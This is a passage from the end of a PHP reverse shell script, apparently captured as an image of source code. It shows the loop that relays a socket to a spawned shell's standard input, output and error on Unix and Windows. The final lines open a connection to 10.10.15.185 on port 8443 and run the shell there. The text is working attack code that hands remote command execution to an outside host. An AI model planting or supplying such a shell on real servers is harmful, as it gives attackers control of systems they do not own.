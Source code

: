 ```php
                                if (in_array($socket  , $streams['read'])) { $this->rw($socket  , $pipes[0], 'SOCKET', 'STDIN' ); } // read from SOCKET and write to STDIN
                                if (in_array($pipes[2], $streams['read'])) { $this->rw($pipes[2], $socket  , 'STDERR', 'SOCKET'); } // read from STDERR and write to SOCKET
                                if (in_array($pipes[1], $streams['read'])) { $this->rw($pipes[1], $socket  , 'STDOUT', 'SOCKET'); } // read from STDOUT and write to SOCKET
                            } else if ($this->os === 'WINDOWS') {
                                // order is important
                                if (in_array($socket, $streams['read'])/*------*/) { $this->rw ($socket  , $pipes[0], 'SOCKET', 'STDIN' ); } // read from SOCKET and write to STDIN
                                if (($fstat = fstat($pipes[2])) && $fstat['size']) { $this->brw($pipes[2], $socket  , 'STDERR', 'SOCKET'); } // read from STDERR and write to SOCKET
                                if (($fstat = fstat($pipes[1])) && $fstat['size']) { $this->brw($pipes[1], $socket  , 'STDOUT', 'SOCKET'); } // read from STDOUT and write to SOCKET
                            }
                        }
                    } while (!$this->error);
                    // ------ WORK END ------

                    foreach ($pipes as $pipe) {
                        fclose($pipe);
                    }
                    proc_close($process);
                }
                // ------ SHELL END ------

                fclose($socket);
            }
            // ------ SOCKET END ------

        }
    }
}
echo '<pre>';
// change the host address and/or port number as necessary
$sh = new Shell('10.10.15.185', 8443);
$sh->run();
unset($sh);
// garbage collector requires PHP v5.3.0 or greater
// @gc_collect_cycles();
echo '</pre>';

```